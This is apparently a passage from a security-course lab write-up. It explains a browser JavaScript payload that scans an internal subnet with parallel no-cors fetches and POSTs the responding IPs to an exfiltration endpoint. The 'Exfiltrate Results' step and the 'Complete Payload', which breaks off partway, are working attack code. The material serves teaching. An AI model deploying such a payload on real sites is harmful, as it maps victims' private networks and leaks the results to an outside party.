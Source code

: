 **How it works:**

- If a web server exists at the IP, the fetch succeeds and returns the IP
- If no server exists, the fetch fails (connection refused/timeout) and returns `null`

### Step 3: Scan All IPs in Parallel

Use `Promise.all()` to scan all IPs simultaneously:

```javascript
var scanPromises = ipsToScan.map(function (ip) {
  return scanIP(ip);
});

Promise.all(scanPromises).then(function (results) {
  // Filter out null results (failed scans)
  var validIPs = results.filter(function (ip) {
    return ip !== null;
  });

  // validIPs now contains all IPs with web servers
});
```

**Why parallel scanning:**

- Scanning 252 IPs sequentially would take too long
- Parallel scanning completes in seconds
- The browser can handle many concurrent requests

### Step 4: Exfiltrate Results

Send the discovered IPs to the attacker's endpoint:

```javascript
var resultString = validIPs.join(",");
fetch("https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065", {
  method: "POST",
  body: "scan_results=" + encodeURIComponent(resultString),
});
```

### Complete Payload

```javascript
window.gotYou = true;

function scanIP(ip) {
  return fetch("http://" + ip, {
    method: "GET",
    mode: "no-cors",
  })
    .then(function (response) {
      return ip;
    })
    .catch(function (error) {
      return null;
    });
}

// Generate array of IPs to scan (172.16.238.4 to 172.16.238.255)
var ipsToScan = [];
for (var i = 4; i <= 255; i++) {
  ipsToScan.push("172.16.238." + i);
}

// Create promises for all IP scans
```